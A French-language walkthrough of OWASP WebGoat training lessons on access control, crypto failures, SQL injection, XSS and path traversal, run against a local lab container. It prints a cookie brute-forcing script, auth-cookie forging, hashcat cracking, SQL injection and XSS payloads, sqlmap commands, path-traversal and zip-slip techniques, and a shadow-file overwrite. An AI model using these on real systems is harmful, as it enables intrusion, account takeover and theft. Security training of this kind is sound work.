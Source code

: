 
# Découverte OWASP

# **Découverte des vulnérabilités référencées par l’OWASP**

Dans ce document nous découvrirons un ensemble de vulnérabilités classées par l’OWASP et leur détection dans le cadre d’un « pen-testing ».

L'OWASP (Open Worldwide Application Security Project) est une association mettant en avant les différentes failles connues sur les applications (principalement web) et les moyens de s'en protéger. L'organisme effectue un classement régulier des vulnérabilités les plus exploitées sur Internet pour former les testeurs de sécurité à leur détection et les développeurs à leur compréhension et à la correction du code.

L'OWASP propose divers projets, et nous nous intéresserons ici au sujet principal : le classement des **10 vulnérabilités les plus exploitées sur Internet**. Pour effectuer cette étude, nous nous baserons sur le site officiel de l'OWASP et sur une application répertoriant des exemples des différents types de vulnérabilités étudiées. L’application WebGoat est ainsi développée par l’OWASP pour comprendre les différents types de vulnérabilités et leurs impacts.

Nous travaillerons ainsi sur les **5 premières vulnérabilités** du top 10 de l'OWASP (version 2021, car ce classement est actualisé tous les 4 ans).

**Les vulnérabilités de l’OWASP**

L'OWASP classe les vulnérabilités en catégories spécifiques :

- **A01:2021 - Broken Access Control**
- **A02:2021 - Cryptographic Failures**
- **A03:2021 - Injection**
- **A05:2021 - Security Misconfiguration**

    Chacune de ces catégories correspond à un ensemble de « faiblesses » **CWE (Common Weakness Enumeration)** qui définissent des causes probables de vulnérabilités futures.

L'organisation à but non lucratif **MITRE** est à l'origine des classifications des différentes faiblesses, dans le but de définir les vulnérabilités connues à surveiller en urgence : les **CVE (Common Vulnerability and Exposure / Common Vulnerability Enumeration)**.



>En 1999, MITRE a établi une classification des menaces permettant de se protéger et de configurer les équipements IDS pour prévenir l'exploitation des menaces récentes sur les systèmes d'information.

- Les CVE possèdent un identifiant unique permettant de retrouver une vulnérabilité et un contexte précis d’exploitation (version du programme touché, système d’exploitation touché, CWE liées à ce type de vulnérabilité, risques encourus)
- Les CWE classent de manière générique les types de vulnérabilité et leurs impacts sur les systèmes touchés.

Ce document n’étant pas un remplaçant du site officiel de l’OWASP, celui-ci devra être utilisé tout au long de l’étude pour comprendre les différentes implications des vulnérabilité et faiblesses étudiées.

Nous étudierons ici les outils utiles à la réalisation des test effectués dans l’application WebGoat. Ainsi que quelques astuces vous permettant de progresser dans cet apprentissage.

Installation de l’application WebGoat

J’utiliserais ici l’application dans un conteneur sur une machine Kali Linux pour avoir à portée de main les différents outils permettant de tester mon application.

```bash
apt install docker.io
docker pull webgoat/webgoat
docker create -ti —name webgoat -p 8080:8080 -p 9090:9090 -e TZ=Europe/Paris webgoat/webgoat

```

Pour les premières leçons de l’application WebGoat, vous aurez besoin d’utiliser les outils de développeur de votre navigateur, en appuyant sur la touche f12 de votre clavier une partie outils développeurs apparaît sur la page.

![images/image1.png](images/image1.png)

1. (A1) Broken Access Control
    
    <aside>
    
    *Hijack a session*
    
    > Le session Hijacking est le fait de voler la session d’un autre utilisateur, il repose la plupart du temps sur l’utilisation d’un moyen d’authentification autre que le nom et le mot de passe de l’utilisateur (comme un cookie d’authentification).
    >
    <details>
    <summary>- Hijack a session - 5</summary>
        
   Dans la partie storage vous trouverez les cookies liés à la page sur laquelle vous vous connectez. Pour la première leçon (Hijack a session) il s’agit de deviner le cookie d’un utilisateur.
        
   Pour réaliser ce challenge je note le cookie récupéré par l’utilisateur julien :
   > 🍪  Hijack_cookie : 999666930232324123-1739829095375
   
   Puis je supprime le cookie et remplie à nouveau le formulaire pour comparer son cookie :
        
   > 🍪  Hijack_cookie : 999666930232324124-1739829895548
        
   En répétant l’opération à de multiple reprises je remarque que certains numéros sont sautés pour le premier nombre. Un cookie a donc été donné à un autre utilisateur, je peux donc utiliser cette valeur comme base pour trouver le cookie de l’utilisateur. En effectuant une recherche sur internet sur la deuxième valeur je constate qu’il s’agit d’un timestamp depuis l’époque unix (1 janvier 1970). Je peux donc tenter la première valeur trouvée en réduisant le timestamp d’une unité depuis que le cookie à été trouvé. En procédant ainsi je suis sûr de pouvoir trouver le cookie d’un utilisateur. Je pourrais donc utiliser le script suivant pour trouver le cookie à coup sûr :
        
   ```bash
        #!/bin/bash
        if [[ -z $1 ]] || [[ -z $2 ]] || [[ -z $3 ]] || [[ -z $4 ]] || [[ -z $5 ]] || [[ -z $6 ]] ; then { 
          echo "donner la valeur du jeton JSESSIONID, votre nom d'utilisateur et votre mot de passe"
        	echo "-s JSESSIONID"
        	echo "-u username"
        	echo "-p password"
        	echo "Usage: $0 -u julien -p poseidon -s sLdOKMWBs9rchRluZGhTFgRw6sNEaA5m94hdDSxs"
        	exit 1
        }
        fi
        options="$1 $3 $5"
        case $options in
        	"-s -u -p")
        			session=$2
        			user=$4
        			password=$6
        			;;
        	"-s -p -u")
        			session=$2
        			user=$6
        			password=$4
        			;;
        	"-u -s -p")
        			session=$4
        			user=$2
        			password=$6
        			;;
        	"-u -p -s")
        			session=$6
        			user=$2
        			password=$4
        			;;
        	"-p -s -u")
        			session=$4
        			user=$6
        			password=$2
        			;;
        	"-p -u -s")
        			session=$6
        			user=$4
        			password=$2
        			;;
        	*)
        			echo "donner la valeur du jeton JSESSIONID, votre nom d'utilisateur et votre mot de passe"
        			echo "-s JSESSIONID"
        			echo "-u username"
        			echo "-p password"
        			echo "Usage: $0 -u julien -p poseidon -s sLdOKMWBs9rchRluZGhTFgRw6sNEaA5m94hdDSxs"
        			exit 1
        			;;
        esac
        a=0
        jsession=$(curl -si "http://127.0.0.1:8080/WebGoat/login" -d "username=$user&password=$password" -v 2> /dev/null | grep JSESSIONID | cut -d "=" -f 2 | cut -d ";" -f 1)
        while true; do {
        	hijack1=$(curl -si "http://127.0.0.1:8080/WebGoat/HijackSession/login" -d "username=$user&password=password" -b "JSESSIONID=$jsession" -L -v 2> /dev/null| grep hijack_cookie | cut -d "=" -f 2 | cut -d ";" -f 1)
        	#echo "session=$jsession"
        	#echo "cookie=$hijack1"
        	current=$(echo $hijack1 | cut -d "-" -f 1)
        	if (($a != 0 )); then {
        		if [[ $current != $predict ]]; then {
        			echo "actuel: $current, prévu: $predict"
        			time=$(echo $hijack1 | cut -d "-" -f 2)
        			for ((i=0;i<30;i++)); do {
        				jsession=$session
        				time=$(($time - 1))
        				hijack2="$predict-$time"
        				curl "http://127.0.0.1:8080/WebGoat/HijackSession/login" -d "username=jul&password=posei" -b "JSESSIONID=$jsession" -b "hijack_cookie=$hijack2" -L -v 2> /dev/null | grep Sorry > /dev/null
        				if (( $? != 0 )); then {
        					echo "bingo: $hijack2"
        					curl "http://127.0.0.1:8080/WebGoat/HijackSession/login" -d "username=jul&password=posei" -b "JSESSIONID=$jsession" -b "hijack_cookie=$hijack2" -L
        					break
        				}
        				fi
        			}
        			done
        			break
        		}
        		fi
        	}
        	fi
        	predict=$(($current + 1))
        	a=1
        }
        done
   ```
        
   Le script se connecte au serveur avec les identifiants entrés à l’exécution puis récupère un hijack_cookie auprès du serveur, il incrémente ensuite le permier nombre pour prédire la valeur du prochain cookie. Si le prochain cookie possède la valeur prévue il recommence l’opération jusqu’à ce que le cookie obtenu ne soit pas celui qui était prévu. A partir du moment ou ce cookie est identifié on décrémente la valeur du deuxième nombre (le timestamp) d’une unité pour trouver le cookie attendu.
        
   L’opération est répétée une trentaine de fois ce qui était suffisant lors de mes tests.
        
    </aside>
    </details>    
    <aside>
    
    *Insecure Direct Object Reference*
    
    > L’IDOR est un type de vulnérabilité permettant à un attaquant d’utiliser une information propre à un utilisateur pour pouvoir accéder aux données d’autres utilisateurs ( il s’agit la plupart du temps d’un identifiant lié à l’utilisateur connecté).
    > 
    
    > Pour cette partie  j’utiliserais le logiciel ZAP (Zed Attack Proxy) créé par l’OWASP. Ce logiciel agit comme serveur proxy et permet d’intercepter les connexions pour les analyser, ou les répéter avec des paramètres différents. Je serais ainsi capable de modifier les requêtes et pour tromper le serveur web sur lequel je me connecte.
    > 
    > 
    > Une fois lancé j’utiliserai le navigateur intégré à Zaproxy pour me connecter à webgoat.
    > 
    > ![images/image2.png](images/image2.png)
    >
    <details> 
    <summary> Insecure Direct Object References - 3 </summary>
        
   Dans zap je peux observer la réponse reçue :
        
   ![images/image3.png](images/image3.png)
    </details> 
    <details>
    <summary> Insecure Direct Object References - 5 part 1 </summary>
        
   je récupère la requête avec zap et la répète pour en modifier le contenu :
        
   ![images/image4.png](images/image4.png)
        
   Je choisirais Open/Resend with Request Editor pour modifier la requête :
        
   ![images/image5.png](images/image5.png)
        
   Puis en testant plusieurs identifiant utilisateurs en décrémentant et incrémentant l’identifiant de tom je trouve celui de l’utilisateur Buffalo Bill.
     </details>
    <details>
    <summary> Insecure Direct Object References - 5 part 2 </summary>
        
   Pour la dernière partie l’objectif étant de modifier la requête http nous devons trouver un moyen d’envoyer des modifications, je modifie donc la méthode de la requête http :
        
   ![images/image6.png](images/image6.png)
        
   Ici la méthode POST n’est pas autorisée mais je découvre 2 méthodes : PUT et GET qui sont autorisées. Je teste donc avec la méthode PUT :
        
   ![images/image7.png](images/image7.png)
        
   Cette fois le media-type n’est pas autorisé mais le content-type est application/json, je le modifie donc et tente d’envoyer les modifications demandées :
        
   ![images/image8.png](images/image8.png)
        
   Le profile de l’utilisateur Buffalo Bill est modifié.
     </details>     
    </aside>
    
    <aside>
    
    *Missing Function Level Access Control*
    
    > Il s’agit toutes les fonctions, autres que l’IDOR. Permettant à un utilisateur d’obtenir des accès au données ou aux droits d’autres utilisateurs.
    >
    <details> 
    <summary> Missing Function Level Access Control - 2 </summary>
        
   Nous devons trouver un menu caché, pour cela nous pouvons utiliser les outils développeurs web du navigateur:
        
   ![images/image9.png](images/image9.png)
        
   Nous découvrirons ici 2 catégories cachées dans la page (attention elles sont sensibles à la casse)
     </details>
     <details>
    <summary> Missing Function Level Access Control - 3 </summary>
        
   En utilisant à nouveau zaproxy je tente de faire un get sur la page users trouvée précédemment 
        
   ![images/image10.png](images/image10.png)
        
   A nouveau le type d’application ne semble pas correspondre (je modifierais pour application/json :
        
   ![images/image11.png](images/image11.png)
        
   La liste des utilisateurs récupérée j’obtiens le hash de l’utilisateur jerry.
     </details>
     <details>
    <summary> Missing Function Level Access Control - 4 </summary>
        
   Dans la dernière partie les développeurs ont corrigé le problème en autorisant seulement les administrateurs à accéder aux informations. J’utiliserais donc une technique semblable à celle utilisée dans la leçon sur l’IDOR pour obtenir les droits administrateurs :
        
   ![images/image12.png](images/image12.png)
        
   La requête semble fonctionner mais le password n’est pas pris en compte :
        
   ![images/image13.png](images/image13.png)
        
   N’ayant pas d’accès à la page users-admin-fix je passe le compte julien que j’utilise pour effectuer l’élévation de privilèges :
        
   ![images/image14.png](images/image14.png)
        
   La page users-admin-fix devient accessible :
        
   ![images/image15.png](images/image15.png)
     </details>     
    </aside>
    
    <aside>
    
    *Spoofing an Authentication Cookie*
    
    > Dans cette partie il s’agira de deviner la méthode utilisée pour créer des cookies d’authentification et de l’utiliser pour se créer un cookie valable pour se connecter avec les droits d’un autre utilisateur.
    >
    <details> 
    <summary> Spoofing an Authentication Cookie - 2 </summary>
        
   J’observe le cookie spoof_auth obtenu et remarque qu’il semble être en encodage base64, je tente donc de le décoder :
        
   ```bash
        echo "NDM2YzdhNTU3NzYxNTk0ZjY3NzA3NDYxNmY2NzYyNjU3Nw==" | base64 -d
        436c7a557761594f677074616f67626577
   ```
        
   Le résultat semble être un code hexadécimal :
        
   ```bash
        echo 436c7a557761594f677074616f67626577 | xxd -r -p
        ClzUwaYOgptaogbew
   ```
        
   J’observe la présence du login/motdepasse présent dans la chaîne de caractère produite en inversé :
        
   ```bash
        echo 436c7a557761594f677074616f67626577 | xxd -r -p | rev
        webgoatpgOYawUzlC
   ```
        
   Je vérifie avec le login admin et constate le même résultat, il me suffit donc d’inverser le procéder pour créer un cookie pour n’importe quel utilisateur dont je connais le login :
        
   ```bash
        echo -n tompgOYawUzlC | rev | xxd -p | base64 NDM2YzdhNTU3NzYxNTk0ZjY3NzA2ZDZmNzQK
   ```
        
   Suite à différents test je me rend compte qu’un retour à la ligne corromps la chaîne de caractère je supprime donc le retour à la ligne avant d’encoder en base64 :
        
   ```bash
        echo -n "tompgOYawUzlC" | rev | xxd -p| tr -d '\n'|base64
        NDM2YzdhNTU3NzYxNTk0ZjY3NzA2ZDZmNzQ=
   ```
     </details>     
    </aside>
    
2. (A2) Cryptographic Failures
    
    <aside>
    
    *Crypto Basics*
    
    > Les méthodes de chiffrement, encodage, et hachage sont couramment utilisées par les application pour authentifier les utilisateurs , transmettre leurs données et les sécuriser. Pourtant les méthodes utilisée peuvent ne pas être adaptées et conduire à une compromission des données. De même les technologies utilisées doivent faire l’objet d’une veille constante et être mises à jour dès que nécessaire.
    >
    <details>
    <summary> Crypto Basics - 3 </summary>
        
   J’utiliserai CyberChef sur internet :
        
   ![images/image16.png](images/image16.png)
        
   Ici je tente de bruteforcer le ou exclusif pour récupérer le mot de passe après avoir décoder les caractères en base64. En effet l’opération « ou exclusif » s’exécute en binaire et peut convertir certains caractères dans des code binaire non interprétables par un terminal, le résultat de l’opération est donc encodé en base64(attention le mot de passe trouvé n’est pas dans la casse attendue par le formulaire).
   <details>
    <summary> Crypto Basics - 4 </summary>
        
   je choisirais ici le programme hashcat pour pouvoir cracker le hash proposé :
        
   ```bash
        hashid -m '21232F297A57A5A743894A0E4A801FC3'
        hashcat -m 0 '21232F297A57A5A743894A0E4A801FC3' /usr/share/wordlists/rockyou.txt 
   ```
        
   ```bash
        hashid -m '8F0E2F76E22B43E2855189877E7DC1E1E7D98C226C95DB247CD1D547928334A9'
        hashcat -m 1400 '8F0E2F76E22B43E2855189877E7DC1E1E7D98C226C95DB247CD1D547928334A9' /usr/share/wordlists/rockyou.txt
        
   ```
   </details>
   <details>
    <summary> Crypto Basics - 6 </summary>
        
   J’ enregistre la clé privée donnée dans fichier nommé private.rsa , puis je génère une clé publique correspondante :
        
   ```bash
        openssl rsa -in private.rsa -pubout > pub.rsa
   ```
        
   depuis la clé publique j’extrait le modulus :
        
   ```bash
        openssl rsa -in pub.rsa -pubin -modulus -noout | cut -d "=" -f 2 > modulus.txt
   ```
        
   puis je sign le modulus en sha256 en utilisant la clé privée :
        
   ```bash
        cat modulus.txt | tr -d '\n' | openssl dgst -sha256 -sign private.rsa | base64
   ```
     </details>
     <details>
    <summary> Crypto Basics - 8 </summary>
        
   J’extrais le fichier shadow du conteneur pour obtenir le droit d’accès sur le fichier puis je déchiffre le message grâce à la passphrase :
        
   ```bash
        docker cp youthful_hodgkin:/etc/shadow .
        pass=$(openssl passwd -6 poseidon) && sed -i "/root/ s/\*/$pass/" shadow
        docker cp shadow youthful_hodgkin:/etc/shadow
        docker exec -ti youthful_hodgkin bash
        su –
        cat default_secret
        echo "U2FsdGVkX199jgh5oANElFdtCxIEvdEvciLi+v+5loE+VCuy6Ii0b+5byb5DXp32RPmT02Ek1p f55ctQN+DHbwCPiVRfFQamDmbHBUpD7as=" | openssl enc -aes-256-cbc -d -a -k ThisIsMySecretPassw0rdF0rY0u
        
   ```
        
    </aside>
    
3. (A3) Injection
    
    <aside>
    
    *SQL Injection (intro)*
    
    > L’injection SQL est un type de vulnérabilité permettant à un attaquant de sortir du cadre prévu par l’application pour interroger sa base de données. Il devient possible (la plupart du temps par le biais de formulaires html dont les entrées ne sont pas assez restrictives) d’accéder à d’autres informations stockées dans la base de donnée, voir de les modifier.
    >
    <details> 
    <summary> SQL Injection (intro) - 10 </summary>
        
   Après différents essais le champs login_count ne semble pas vulnérable aux injections SQL, mais User_Id peut être injecté :
        
   ![images/image17.png](images/image17.png)
     </details>
     <details>
    <summary> SQL Injection (intro) - 11 </summary>
        
   Le même principe est utilisable dans cette leçon en utilisant les commentaires sql :
        
   ![images/image18.png](images/image18.png)
     </details>
     <details>
    <summary> SQL Injection (intro) - 12 </summary>
        
   Nous utiliserons le même concept mais en ajoutant cette fois une commande de mise à jour de la table :
        
   ```sql
        'update employees set salary=91000 where userid=37648; --
   ```
     </details>
     <details>
    <summary> SQL Injection (intro) - 13 </summary>
        
   Nous utiliserons le même principe d’enchaînement des requêtes pour supprimer la table des logs :
        
   ![images/image19.png](images/image19.png)
     </details>    
    </aside>
    
    <aside>
    
    *SQL Injection (advanced)*
    <details>
    <summary> SQL Injection (advanced) - 3 </summary>
        
   ```sql
        ';select * from user_system_data; --
   ```
        
   En essayant de réaliser l’injection suivante :
        
   ```sql
        ' union select password from user_system_data –
   ```
        
   Je remarque que le nombre de colonnes ne correspond pas :
        
   ![images/image20.png](images/image20.png)
        
   Il faudra donc faire correspondre le nombre de colonne de la deuxième requête avec la première (une * donc toutes les colonnes de la première table) :
        
   ```sql
        ' union select null,password,user_name,null,null,null,null from user_system_data –
   ```
        
   ![images/image21.png](images/image21.png)
     </details>
     <details>
    <summary> SQL Injection (advanced) - 5 </summary>
        
   J’utiliserais l’outil sqlmap pour tester les différents types d’injection sql disponibles, après avoir testé les pages challenge_login et challenge deux injection sont possibles sur le paramètre username_reg :
        
   ```bash
        sqlmap -u http://127.0.0.1:8080/WebGoat/SqlInjectionAdvanced/challenge --data="username_reg=test&email_reg=bob%40mail.com&password_reg=po&confirm_p assword_reg=test" --cookie="JSESSIONID=0txqnMhhofk6DP1OdGeKIItd8yPCW95jNQUolcwn" --method PUT --level 5 --risk 3 -p username_reg
   ```
        
   ![images/image22.png](images/image22.png)
        
   En utilisant la technique boolean-based blind j’arrive à déterminer si une requête sql obtient une réponse positive ou non :
        
   ![images/image23.png](images/image23.png)
        
   Ici le résultat de la requête n’est pas considérée comme vraie , il n’y a donc pas de conflit avec un utilisateur existant, le système considère qu’il peut créer le compte.
        
   En effectuant un test avec les différentes lettres je trouve celle-ci :
        
   ![images/image24.png](images/image24.png)
        
   Cette fois le retour de la requête est positif, la première lettre du mot de passe est un t. Il suffit dont de tester les différentes lettres pour trouver le mot de passe complet.
        
   Pour cela j’utiliserais le programme burpsuite en forçant les caractères à utiliser dans ce paramètre. La fonctionnalité intruder de burp permettra d’effectuer cette manipulation.
        
   Burp joue le rôle de proxy tout comme zap et je l’utiliserais dans un premier temps pour capturer le trafique envoyé par mon navigateur (attention de bien gérer les paramètres de proxy du navigateur, les ports à utiliser puisque WebGoat utilise le port 8080 qui est aussi celui par défaut de burp, de plus il faut penser que le navigateur n’utilise pas de proxy pour se connecter à une adresse en 127.0.0.1, il faudra donc utiliser l’adresse IP de la machine hôte pour pouvoir se connecter à l’interface de webgoat).
        
   ![images/image25.png](images/image25.png)
        
   Je choisi ensuite d’envoyer cette requête vers l’intruder :
        
   ![images/image26.png](images/image26.png)
        
   Puis je modifie la requête pour envoyer différents paramètres à la chaîne :
        
   ![images/image27.png](images/image27.png)
        
   Le paramètre username_reg test ici si la longueur du mot de passe est égale à num (ce qui ne peut pas être vrai puisqu’on fait ici une comparaison entre un entier et une chaîne de caractères. Attention pour que la requête puisse être envoyée il faudra convertir la valeur du paramètre en encodage url :
        
   ![images/image28.png](images/image28.png)
        
   Et il ne reste plus qu’a sélectionner le paramètre à tester en choisissant « add payload position »:
        
   ![images/image29.png](images/image29.png)
        
   Un panneau de paramétrage de la payload apparaît, je choisis des nombres à incrémenter de 1 entre 1 et 50 pour déterminer la longueur du mot de passe de tom :
        
   ![images/image30.png](images/image30.png)
        
   Dans la partie settings j’ajoute un Grep – Match avec une expression présente dans la réponse à ma requête si le résultat est vrai (User {0} already exists …), je choisi ici le mot exists :
        
   ![images/image31.png](images/image31.png)
        
   Il ne me reste plus qu’à lancer l’attaque et à observer la colonne exists :
        
   ![images/image32.png](images/image32.png)
        
   Le mot de passe à donc 23 caractères.
        
   Il est possible cumuler deux payload avec burp intruder pour tester les différentes combinaisons de caractères pour la première lettre du mot de passe, puis toutes les combinaisons de caractères pour la deuxième lettre et ainsi de suite pour les 23 caractères du mot de passe. Pour cela je choisi un type d’attaque Cluster bomb attack, puis je désigne la partie position de substring comme étant un nombre incrémenté de 1 entre 1 et 23 :
        
   ![images/image33.png](images/image33.png)
        
   Je paramètre ensuite la deuxième payload comme étant un caractère entre a et z (ma requête analyse seulement les caractères en minuscule pour gagner du temps, il sera ensuite possible de tester la casse une fois le mot de passe connu) :
        
   ![images/image34.png](images/image34.png)
        
   Il n’y a plus qu’a lancer l’attaque et voir si nous récupérons une partie des 23 caractères (si certains caractères manquent nous pourrons tester les caractères spéciaux et nombres) :
        
   ![images/image35.png](images/image35.png)
        
   Quand l’attaque est finie nous optenons le mot de passe :
        
   thisisasecretfortomonly
     </details>
    </aside>
    
    <aside>
    
    *Cross Site Scripting*
    
    > Le XSS (Cross Site Scripting), consiste à injecter (la plupart du temps dans un formulaire, mais l’injection pourrais aussi se faire dans les entêtes html, les cookies etc.) un script javascript exécuté sur la machine d’un client. Il est ainsi possible d’exécuter du code sur la machine d’un autre utilisateur se connectant au site vulnérable. La plupart du temps le code exécuté sur la machine de la victime visera à lui voler des informations d’authentification stockées dans les cookies par exemple.
    On distinguera ici les XSS nécessitant de tromper l’utilisateur en lui envoyant un lien générant du code malveillant et une Stored XSS étant stockée dans la base de donnée du server, ou ses fichiers.
    >
    <details>
    <summary> Cross Site Scripting - 7 </summary>
        
   Nous pouvons tester d’envoyer le code :
        
   ```jsx
        <script> alert("hello")</script>
   ```
        
   Dans les différentes parties du formulaire. Si une fenêtre apparaît en indiquant le message hello, vous avez trouvé le champ vulnérable.
     </details>
     <details>
    <summary> Cross Site Scripting - 10 </summary>
        
   en analysant le code GoatRouter.js dans la partie debugger de la console developer du navigateur on trouve une route test
     </details>
     <details>
    <summary> Cross Site Scripting - 11 </summary>
        
   en allant dans un nouvel onglet et en appelant :
   [http://192.168.189.50:8080/WebGoat/start.mvc?username=julien#test](http://192.168.189.50:8080/WebGoat/start.mvc?username=julien#test/)/%3Cscript%3Ewebgoat.customjs.phoneHome%28%29%3C%2Fscript%3E
        
   Un message contenant un numéro s’affiche dans la console du navigateur
        
   Le message envoyé à la route test est :
        
   ```jsx
        <script>webgoat.customjs.phoneHome()</script>
   ```
        
   Mais les caractères spéciaux sont encodés pour être correctement interprétés par le navigateur.
     </details>     
    </aside>
    
    <aside>
    
    *Cross Site Scripting (stored)*
    <details>
    <summary> Cross Site Scripting (stored) - 3 </summary>
        
   Nous pourrons directement inclure notre payload sans avoir besoin de l’encoder, cette fois la payload est sauvegardée dans les données du site (certainement dans une base de donnée) et dès qu’un utilisateur accède à la page le script est exécuté.
   </details>     
    </aside>
    
    <aside>
    
    *Path traversal*
    
    > La Path traversal est un type de vulnérabilité permettant à l'attaquant de changer l’endroit ou les données d’un serveur web sont lues ou écrites. Il devient ainsi possible pour l’attaquant de lire des fichiers qui n’appartiennent pas au champs de l’application concernée, voir de modifier des fichiers systèmes.
    >
    <details>
    <summary> Path traversal - 2 </summary>
        
   Nous devons envoyer une image sur le serveur lorsque le formulaire est utilisé normalement nous avons :
        
   ![images/image36.png](images/image36.png)
        
   On peut remarque que le nom choisi apparaît dans le chemin de stockage de l’image, nous pouvons influer sur le chemin en changeant le nom pour ../hello
     </details>
     <details>
    <summary> Path traversal - 4 </summary>
        
   Le problème à ici été corrigé.
   Le nom n’apparaît plus dans le chemin de stockage de l’image, mais le nom de l’image lui-même est utilisé tel quel. Nous pouvons donc modifier le nom de l’image pour choisir sa destination. J’utiliserais ici la fonction répéteur de burp pour modifier le nom de l’image :
        
   ![images/image37.png](images/image37.png)
     </details>
     <details>
    <summary> Path traversal - 5 </summary>
        
   En analysant les requêtes avec burp on trouve l’url :
        
   le paramètre id=10 permet d’exploiter un path traversal à l’aide d’encodage url : 
        
   ```bash
        /WebGoat/PathTraversal/random-picture?id=%2e%2e%2f%2e%2e%2fpath-traversal-secret
   ```
        
   Le .jpg est ajouté automatiquement à chaque requête
     </details>
     <details>
    <summary> Path traversal - 7 </summary>
        
   Pour cette dernière partie le chemin de l’image qui est contenu dans le fichier zip doit contenir le path traversal. Ici il faudra recréer le chemin que nous voulons écraser :
   ```bash
   mkdir -p challenge7/home/webgoat/.webgoat-2023.8/PathTraversal/julien/ 
   ```
   copier une image dans le dernier répertoire     
   ```bash
        ls challenge7/home/webgoat/.webgoat-2023.8/PathTraversal/julien/
        image.jpg
   ```
        puis rentrer dans deux niveaux de répertoires :
   ```bash
        cd challenge7/home
   ```
        enfin compresser l’image avec un chemin relatif :
   ```bash
        zip file.zip ../../home/webgoat/.webgoat-2023.8/PathTraversal/julien/image.jpg
   ```
        
   En envoyant le fichier zip l’image extraite le sera à l’endroit choisi !
   </details>     
    </aside> 
